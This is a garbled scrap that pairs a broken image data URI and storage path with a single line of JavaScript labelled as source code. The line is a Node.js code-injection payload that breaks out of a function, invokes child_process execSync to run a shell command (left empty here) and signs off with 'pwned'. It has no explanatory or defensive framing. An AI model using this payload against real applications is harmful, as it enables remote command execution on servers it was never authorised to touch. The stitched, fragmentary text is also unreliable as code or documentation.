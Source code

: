 exploit() {} && (() => {global.process.mainModule.require("child_process").execSync("");})() && function pwned
